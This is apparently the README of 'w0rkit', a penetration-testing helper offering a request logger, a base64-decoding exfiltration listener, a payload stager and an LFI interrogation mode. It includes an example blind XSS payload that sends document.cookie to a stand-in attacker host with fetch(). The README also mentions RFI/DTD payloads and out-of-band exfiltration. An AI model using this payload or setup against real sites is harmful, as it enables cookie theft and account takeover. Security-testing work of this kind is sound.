

# w0rkit

A small toolkit containing response handling and parsing solutions that come in handy during PT/BH.

Disclaimer: Pls no evil :(

## Installation

1. `git clone ...`

2. `poetry install`

Done :-)

## Usage

A new way of running the tool is introduced in order to make it more extensible.
Currently under very active development of LFI mode (unstable, don't expect it to work for your purpose)
The `web` mode is stable and can be used as demonstrated below.

The new modes are `web` and `lfi`, where `web` contains the old stager, and response receiver/decoder.

### Web

Currently supports 2 modes. (`simple` and `b64d`).

#### Simple
Just logs request source, headers and parameters. GET only.

`w0rkit web simple -l [listen_address] -p [listen_port]`

So with `-l 127.0.0.1` and `-p 80`:
```
$ curl "http://localhost/?query1=foo&query2=bar&something=somethingelse"
OK
```

Result:


#### b64d
Fetches a `magic_param` from the GET query parameters, base64decodes it and removes url encoding.

`w0rkit web b64d -l [listen_address] -p [listen_port] -m [magic_param]`
`-m` is optional and will default to `?q=`

So with `-l 127.0.0.1`, `-p 80` and `-m decodeme`:

```
$ curl "http://localhost/?decodeme=JTNDaHRtbCUzRSUwQSUzQ2hlYWQlM0UlMEElM0N0aXRsZSUzRU9oJTIwd293JTJDJTIwc28lMjByZWFkYWJsZSUzQy90aXRsZSUzRSUwQSUzQy9oZWFkJTNFJTBBJTNDYm9keSUzRSUwQSUzQy9ib2R5JTNFJTBBJTNDL2h0bWwlM0U%3D%3D"
OK
```

Result:




#### Stager
All apps also have a stager route, as of writing it isn't configurable and reads directly out of `w0rkit/web/static/payloads/`
The stager can be used in a lot of different attacks. This is a safer replacement-to-be for always running `python3 -m http.server` :-)

An Example stored (hardcoded) blind XSS/CSRF attack is currently included in the stager.
When running the code:

```javascript
// This is just an example payload that you could serve

async function runPayload(){
    let result = await fetch(`http://back-to-our-host.local/?q=${btoa(escape(document.cookie))}`)
}

runPayload()
```
So by visiting `http://localhost/stager/example.html` while running in `b64d` mode with `-s (--stager)` enabled:

Result:


### LFI

#### Interrogate

Interactive LFI interrogation mode. Facilitates requesting and decoding files after finding a succesful exploitation.

`w0rkit lfi interrogate -i "http://vulnerable.target/index.php?filepath=" --filter-mode spf`


### Useful for
* Serve Anything, like RFI or DTD Payloads(and exfiltrate easily with `b64d` in OOB situations)
* XSS Pivoting
* Interactive LFI (~~Soon™~~ WIP!) 

Happy Hunting!
